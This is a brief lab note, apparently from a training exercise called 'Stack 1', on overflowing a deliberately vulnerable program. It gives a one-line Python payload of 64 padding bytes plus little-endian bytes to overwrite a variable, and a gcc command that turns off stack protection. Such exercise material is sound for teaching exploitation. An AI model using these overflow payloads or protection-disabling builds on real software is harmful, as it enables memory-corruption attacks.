 #Stack 1

Similar to fist one except it requires to change it to a specific value

```
./stack1 $(python -c 'print "A" * 64 + "\x64\x63\x62\x61"')
```

Notes:

* Little endian!!
* gcc -g -fno-stack-protector -D_FORTIFY_SOURCE=0 -o (executable_file_name) (.c file) to compile the source code in mac (disabling stack canaray and stack protection)

